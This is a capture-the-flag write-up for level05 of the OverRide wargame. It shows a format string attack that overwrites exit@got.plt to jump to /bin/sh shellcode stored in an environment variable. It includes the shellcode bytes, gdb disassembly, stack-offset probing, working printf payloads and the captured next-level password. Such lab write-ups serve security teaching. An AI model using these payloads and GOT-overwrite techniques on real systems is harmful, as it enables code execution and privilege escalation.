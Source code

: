 ## Project README: Finding flag05

The [proGram](./source) given is taking a input from stdin, and print a lower case version of our input. The thing is, the program is using printf in a way that allow us to use `Format string attack`. 

### Analysis

Since we don't have any deadcode, system call or password read, we need to do a `ret to lib` or `shellcode into variable env`. We choose the second option here.

### Progress

First things, let's export our shellcode:

```sh
export shellcode="`python -c 'print("\x90" * 500 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`"
```

Next step, let's find out where our shellcode is stock:

```sh
level05@OverRide:~$ gdb -q ./level05 
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x getenv("shellcode")
0xffffdcff:	0x90909090
```

As we can see, our `shellcode` is at `0xffffdcff`.

Now, we need to know which address we would like to rewrite. So we when to change the jmp from exit to our shellcode.

```sh
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	push   edi
   0x08048448 <+4>:	push   ebx
=> 0x08048449 <+5>:	and    esp,0xfffffff0
   0x0804844c <+8>:	sub    esp,0x90
   0x08048452 <+14>:	mov    DWORD PTR [esp+0x8c],0x0
   0x0804845d <+25>:	mov    eax,ds:0x80497f0
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:	lea    eax,[esp+0x28]
   0x08048472 <+46>:	mov    DWORD PTR [esp],eax
   0x08048475 <+49>:	call   0x8048350 <fgets@plt>
   0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
   0x08048485 <+65>:	jmp    0x80484d3 <main+143>
   0x08048487 <+67>:	lea    eax,[esp+0x28]
   0x0804848b <+71>:	add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:	movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:	cmp    al,0x40
   0x08048497 <+83>:	jle    0x80484cb <main+135>
   0x08048499 <+85>:	lea    eax,[esp+0x28]
   0x0804849d <+89>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:	movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:	cmp    al,0x5a
   0x080484a9 <+101>:	jg     0x80484cb <main+135>
   0x080484ab <+103>:	lea    eax,[esp+0x28]
   0x080484af <+107>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>:	movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>:	mov    edx,eax
   0x080484bb <+119>:	xor    edx,0x20
   0x080484be <+122>:	lea    eax,[esp+0x28]
   0x080484c2 <+126>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>:	mov    BYTE PTR [eax],dl
   0x080484cb <+135>:	add    DWORD PTR [esp+0x8c],0x1
   0x080484d3 <+143>:	mov    ebx,DWORD PTR [esp+0x8c]
   0x080484da <+150>:	lea    eax,[esp+0x28]
   0x080484de <+154>:	mov    DWORD PTR [esp+0x1c],0xffffffff
   0x080484e6 <+162>:	mov    edx,eax
   0x080484e8 <+164>:	mov    eax,0x0
   0x080484ed <+169>:	mov    ecx,DWORD PTR [esp+0x1c]
   0x080484f1 <+173>:	mov    edi,edx
   0x080484f3 <+175>:	repnz scas al,BYTE PTR es:[edi]
   0x080484f5 <+177>:	mov    eax,ecx
   0x080484f7 <+179>:	not    eax
   0x080484f9 <+181>:	sub    eax,0x1
   0x080484fc <+184>:	cmp    ebx,eax
---Type <return> to continue, or q <return> to quit---
   0x080484fe <+186>:	jb     0x8048487 <main+67>
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:	push   0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

So the address we need to change is `0x080497e0`. We need to put `0xffffdcff` into `0x80497e0`. The following point is to find where we start to write if printf.

```sh
level05@OverRide:~$ python -c 'print("AAAA" + " %p"*30)' | ./level05 
aaaa 0x64 0xf7fcfac0 0xf7ec3add 0xffffd4bf 0xffffd4be (nil) 0xffffffff 0xffffd544 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```
Let's find the patern `AAAA` we are looking for `0x41414141` but the only things looking alike is `0x61616161` and when we print it into ascii is `aaaa`. As we can see into our [souce code](./source) inline 10, program switch every upper char into lower. so we start to right a the 10th address.

Resume: 

- `\xe0\x97\x04\x08` -> address to change in little endian
- `0xffffdcff` the address we need to write, in decimal it means: `4294958335`
- `Format string attack`

We have all our elements, let's cook our receipe.

Our payload will look like :

```sh
python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")'
```

Let's try it:

```sh 
level05@OverRide:~$ python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")' | ./level05 
�level05@OverRide:~$ 
```

Nothing...

After looking into `gdb`:

```sh
(gdb) run <<< level05@OverRide:~$ $(python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")')
Starting program: /home/users/level05/level05 <<< level05@OverRide:~$ $(python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")')
level05@override:~$

Breakpoint 1, 0x08048513 in main ()
(gdb) x/64xw 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376	0xf7e45420	0x00000000	0x00000000
0x80497f0:	0xf7fcfac0	0x00000000	0x00000000	0x00000000
0x8049800:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049810:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049820:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049830:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049840:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049850:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049860:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049870:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049880:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049890:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

We can see that our value have a strange value...
After some research, we realize that printf can only right 2147483647 bytes into ou memory and our address is way bigger then INT MAX.

Back to searching, after a few moments, we realize we had a buffer of 100 char which means we can overwrite more then one address.

So the idea is to write our big address in two time.

So the payload will look like:

```sh
python -c 'print("address of jmp exit" + "address of jmp + 2" + "%[nb byte for the last part - nb byte wrote]x" + "%[nb bytes remaining for the first part + some padding due to moving stack]x" + "%[place of the first address]n" + "%[place of the second address]n")'
```

Our address is : `0xffffdcff`
If we split it in two parts, it gives us:
`fff` and `dcff`. Since we need a bit of padding for our shellcode instead of `dcff` we will put `ddff` in order to expect to fall into `\x90`.

Okay let's create our payload.
For us it will be:

```sh
python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" +"%56823x" + "%10$n"  + "%8704x" + "%11$n")'
```

Let's try it: 

```sh
level05@OverRide:~$ (python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" +"%56823x" + "%10$n"  + "%8704x" + "%11$n")';cat) | ./level05
�                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            64                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     f7fcfac0
whoami
level06
cd ../level06
cat .pa
cat: .pa: No such file or directory
cat .pass 
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

And voila.